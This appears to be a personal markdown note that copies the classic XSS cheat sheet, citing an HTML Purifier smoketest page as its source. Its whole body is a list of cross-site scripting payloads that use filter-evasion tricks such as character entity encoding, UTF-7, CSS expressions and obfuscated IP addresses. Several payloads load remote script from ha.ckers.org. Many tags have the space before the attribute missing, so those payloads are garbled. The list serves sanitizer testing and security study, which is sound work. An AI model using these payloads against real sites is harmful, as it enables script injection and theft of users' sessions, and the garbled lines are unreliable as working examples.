 ```yaml
---
title: XSS
description: 'SOURCE: http://htmlpurifier.org/live/smoketests/xssAttacks.php'
date: '2023-06-12 15:53:01'
updated: '2023-06-12 15:54:04'
---
```


';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>=&{}

'';!--"<XSS>=&{()}

<SCRIPT>alert('XSS')</SCRIPT>

<SCRIPTSRC=http://ha.ckers.org/xss.js></SCRIPT>

<SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

<BASEHREF="javascript:alert('XSS');//">

<BGSOUNDSRC="javascript:alert('XSS');">

<BODYBACKGROUND="javascript:alert('XSS');">

<BODY ONLOAD=alert('XSS')>

<DIVSTYLE="background-image:url(javascript:alert('XSS'))">

<DIVSTYLE="background-image:url(&#1;javascript:alert('XSS'))">

<DIV STYLE="width:expression(alert('XSS'));">

<FRAMESET><FRAMESRC="javascript:alert('XSS');"></FRAMESET>

<IFRAMESRC="javascript:alert('XSS');"></IFRAME>

<INPUT TYPE="IMAGE"SRC="javascript:alert('XSS');">

<IMGSRC="javascript:alert('XSS');">

<IMGSRC=javascript:alert('XSS')>

<IMGDYNSRC="javascript:alert('XSS');">

<IMGLOWSRC="javascript:alert('XSS');">

<IMGSRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">

exp/*<XSSSTYLE='no\xss:noxss("*//*");
xss:&#101;x&#x2F;*XSS*//*/*/pression(alert("XSS"))'>

<STYLE>li {list-style-image:url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS

<IMGSRC='vbscript:msgbox("XSS")'>

<LAYERSRC="http://ha.ckers.org/scriptlet.html"></LAYER>

<IMGSRC="livescript:[code]">

scriptalert(XSS)/script
<META HTTP-EQUIV="refresh"CONTENT="0;url=javascript:alert('XSS');">

<META HTTP-EQUIV="refresh"CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">

<META HTTP-EQUIV="refresh"CONTENT="0;URL=http://;URL=javascript:alert('XSS');">

<IMG SRC="mocha:[code]">

<OBJECTTYPE="text/x-scriptlet"DATA="http://ha.ckers.org/scriptlet.html"></OBJECT>

<OBJECTclassid=clsid:ae24fdae-03c6-11d1-8b76-0080c744f389><param name=urlvalue=javascript:alert('XSS')></OBJECT>

<EMBEDSRC="http://ha.ckers.org/xss.swf"AllowScriptAccess="always"></EMBED>

<STYLETYPE="text/javascript">alert('XSS');</STYLE>

<IMGSTYLE="xss:expr/*XSS*/ession(alert('XSS'))">

<XSSSTYLE="xss:expression(alert('XSS'))">

<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><ACLASS=XSS></A>

<STYLEtype="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>

<LINK REL="stylesheet"HREF="javascript:alert('XSS');">

<LINK REL="stylesheet"HREF="http://ha.ckers.org/xss.css">

<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>

<META HTTP-EQUIV="Link"Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">

<STYLE>BODY{-moz-binding:url("http://ha.ckers.org/xssmoz.xml#xss")}</STYLE>

<TABLEBACKGROUND="javascript:alert('XSS')"></TABLE>

<TABLE><TDBACKGROUND="javascript:alert('XSS')"></TD></TABLE>

<HTML xmlns:xss>
<?importnamespace="xss"implementation="http://ha.ckers.org/xss.htc">
<xss:xss>XSS</xss:xss>

</HTML>

<XMLID=I><X><C><![CDATA[<IMGSRC="javas]]><![CDATA[cript:alert('XSS');">]]>

</C></X></xml><SPAN DATASRC=#IDATAFLD=C DATAFORMATAS=HTML>

<XML ID="xss"><I><B><IMGSRC="javas<!---->cript:alert('XSS')"></B></I></XML>

<SPANDATASRC="#xss" DATAFLD="B"DATAFORMATAS="HTML"></SPAN>

<XMLSRC="http://ha.ckers.org/xsstest.xml" ID=I></XML>
<SPANDATASRC=#I DATAFLD=CDATAFORMATAS=HTML></SPAN>

<HTML><BODY>
<?xml:namespaceprefix="t"ns="urn:schemas-microsoft-com:time">

<?importnamespace="t"implementation="#default#time2">
<t:setattributeName="innerHTML"to="XSS<SCRIPTDEFER>alert('XSS')</SCRIPT>"> </BODY></HTML>

<!--[if gte IE4]>
<SCRIPT>alert('XSS');</SCRIPT>
<![endif]-->

<METAHTTP-EQUIV="Set-Cookie"Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">

<XSS STYLE="behavior:url(http://ha.ckers.org/xss.htc);">

<SCRIPTSRC="http://ha.ckers.org/xss.jpg"></SCRIPT>

<!--#exec cmd="/bin/echo'<SCRIPT SRC'"--><!--#execcmd="/bin/echo'=http://ha.ckers.org/xss.js></SCRIPT>'"-->

<?echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>

<BR SIZE="&{alert('XSS')}">

<
%3C
&lt
&lt;
&LT
&LT;
&#60
&#060
&#0060

&#00060
&#000060
&#0000060
&#60;
&#060;
&#0060;
&#00060;
&#000060;
&#0000060;
&#x3c
&#x03c
&#x003c
&#x0003c
&#x00003c
&#x000003c
&#x3c;
&#x03c;

&#x003c;
&#x0003c;
&#x00003c;
&#x000003c;
&#X3c
&#X03c
&#X003c
&#X0003c
&#X00003c
&#X000003c
&#X3c;
&#X03c;
&#X003c;
&#X0003c;
&#X00003c;
&#X000003c;
&#x3C

&#x03C
&#x003C
&#x0003C
&#x00003C
&#x000003C
&#x3C;
&#x03C;
&#x003C;
&#x0003C;
&#x00003C;
&#x000003C;
&#X3C
&#X03C
&#X003C
&#X0003C
&#X00003C
&#X000003C

&#X3C;
&#X03C;
&#X003C;
&#X0003C;
&#X00003C;
&#X000003C;
\x3c
\x3C
\u003c
\u003C

<IMGSRC=JaVaScRiPt:alert('XSS')>

<IMGSRC=javascript:alert(&quot;XSS&quot;)>

<IMGSRC=`javascript:alert("RSnake says, 'XSS'")`>

<IMGSRC=javascript:alert(String.fromCharCode(88,83,83))>

<IMGSRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>

<IMGSRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>

<DIVSTYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">

<IMGSRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

<HEAD><METAHTTP-EQUIV="CONTENT-TYPE"CONTENT="text/html;charset=UTF-7"></HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-

\";alert('XSS');//

</TITLE><SCRIPT>alert("XSS");</SCRIPT>

<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>

<IMGSRC="jav\tascript:alert('XSS');">

<IMGSRC="jav&#x09;ascript:alert('XSS');">

<IMGSRC="jav&#x0A;ascript:alert('XSS');">

<IMGSRC="jav&#x0D;ascript:alert('XSS');">

<IMG
SRC
=
"
j
a
v
a
s
c
r
i
p
t
:
a
l
e
r
t
(
'
X
S
S
'
)
"
>

<IMGSRC=java\0script:alert("XSS")>

&<SCR\0IPT>alert("XSS")</SCR\0IPT>

<IMG SRC=" &#14; javascript:alert('XSS');">

<SCRIPT/XSSSRC="http://ha.ckers.org/xss.js"></SCRIPT>

<BODYonload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

<SCRIPTSRC=http://ha.ckers.org/xss.js

<SCRIPTSRC=//ha.ckers.org/.j>

<IMGSRC="javascript:alert('XSS')"

<IFRAMESRC=http://ha.ckers.org/scriptlet.html <

<<SCRIPT>alert("XSS");//<</SCRIPT>

<IMG"""><SCRIPT>alert("XSS")</SCRIPT>">

<SCRIPT>a=/XSS/
alert(a.source)</SCRIPT>

<SCRIPT a=">"SRC="http://ha.ckers.org/xss.js"></SCRIPT>

<SCRIPT ="blah"SRC="http://ha.ckers.org/xss.js"></SCRIPT>

<SCRIPT a="blah" ''SRC="http://ha.ckers.org/xss.js"></SCRIPT>

<SCRIPT "a='>'"SRC="http://ha.ckers.org/xss.js"></SCRIPT>

<SCRIPT a=`>`SRC="http://ha.ckers.org/xss.js"></SCRIPT>

<SCRIPT>document.write("<SCRI");</SCRIPT>PTSRC="http://ha.ckers.org/xss.js"></SCRIPT>

<SCRIPT a=">'>"SRC="http://ha.ckers.org/xss.js"></SCRIPT>

<AHREF="http://66.102.7.147/">XSS</A>

<AHREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>

<AHREF="http://1113982867/">XSS</A>

<AHREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>

<AHREF="http://0102.0146.0007.00000223/">XSS</A>

<AHREF="h
tt\tp://6&#09;6.000146.0x7.147/">XSS</A>

<AHREF="//www.google.com/">XSS</A>

<A HREF="//google">XSS</A>

<AHREF="http://ha.ckers.org@google">XSS</A>

<AHREF="http://google:ha.ckers.org">XSS</A>

<AHREF="http://google.com/">XSS</A>

<AHREF="http://www.google.com./">XSS</A>

<AHREF="javascript:document.location='http://www.google.com/'">XSS</A>

<AHREF="http://www.gohttp://www.google.com/ogle.com/">XSS</A>
